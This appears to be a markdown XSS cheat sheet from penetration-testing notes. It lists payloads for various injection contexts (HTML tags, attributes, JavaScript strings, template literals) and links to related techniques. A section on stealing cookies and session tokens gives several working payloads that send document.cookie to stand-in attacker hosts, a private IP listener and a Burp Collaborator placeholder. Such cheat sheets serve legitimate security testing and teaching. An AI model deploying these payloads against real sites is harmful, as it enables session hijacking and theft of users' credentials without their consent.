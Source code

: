 Example of different context and respective useful payloads:
- XSS between HTML tags 
	- `<script>alert(document.domain)</script>`
	- `<img src=1 onerror=alert(1)>`
- XSS in HTML tag attributes
	- `"><script>alert(document.domain)</script>`
	- `" autofocus onfocus=alert(document.domain) x="` 
	- `<a href="javascript:alert(document.domain)">`
	- [XSS in hidden input fields](https://portswigger.net/research/xss-in-hidden-input-fields) ---> `%27accesskey=%27x%27onclick=%27alert(1)`
- XSS into JavaScript
	- `</script><img src=1 onerror=alert(document.domain)>`
	- `'-alert(document.domain)-'` or `';alert(document.domain)//`
- Making use of HTML-encoding
	- `&apos;-alert(document.domain)-&apos;`
- XSS in JavaScript template literals (eg. ``document.getElementById('message').innerText = `Welcome, ${user.displayName}.`;``)
	- `${alert(document.domain)}`
- [Client-side template injection (CSTI)](Client-side%20template%20injection%20(CSTI).md)
	- [Client-side template injection in AngularJS](Client-side%20template%20injection%20(CSTI).md#Client-side%20template%20injection%20in%20AngularJS)
- [Cross-Site Scripting using MIME sniffing](MIME%20sniffing.md#Cross-Site%20Scripting%20using%20MIME%20sniffing)
## Steal of cookies and session tokens

Payload:

```jsx
<script> new Image().src = "http://attacker.site/log.php?q="+document.cookie;</script>

<script>
alert(document.cookie);
var i=new Image;
i.src="http://192.168.0.18:8888/?"+document.cookie;
</script>

<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>

<script>var i=new Image;i.src="http://192.168.0.18:8888/?"+document.cookie;</script>

<img src=x onerror=this.src='http://192.168.0.18:8888/?'+document.cookie;>

<img src=x onerror="this.src='http://192.168.0.18:8888/?'+document.cookie; this.removeAttribute('onerror');">
```
